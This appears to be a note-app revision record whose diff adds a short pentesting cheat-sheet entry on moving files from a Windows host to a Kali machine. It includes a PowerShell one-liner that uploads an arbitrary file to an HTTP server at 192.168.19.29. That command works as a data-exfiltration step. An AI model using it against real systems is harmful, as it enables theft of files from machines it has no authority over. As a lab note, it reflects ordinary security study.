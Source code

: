 id: afe1f2cb958448a198c6ad12e1cf1149
parent_id: cbd0ee9cfb4b436bb16b699414e7511c
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1642574734044
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"00 \\\n\\\nUpload:\"],[1,\" \\\n\\\n- Start http server in /var/www/html/:\\\n    - sudo python2 -m SimpleHTTPServer 8001\\\n- Run the following powershell code in the Windows Host: powershell.exe -c \\\"(New-Object System.Net.WebClient).UploadFile('http://192.168.19.29:8001/upload.php', '<file to upload>')\\\"\\\n- Find the file in Kali under /var/www/uploads/\\\n\\\nhttps://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9\"]],\"start1\":154,\"start2\":154,\"length1\":12,\"length2\":420}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T06:45:39.149Z
created_time: 2022-01-19T06:45:39.149Z
type_: 13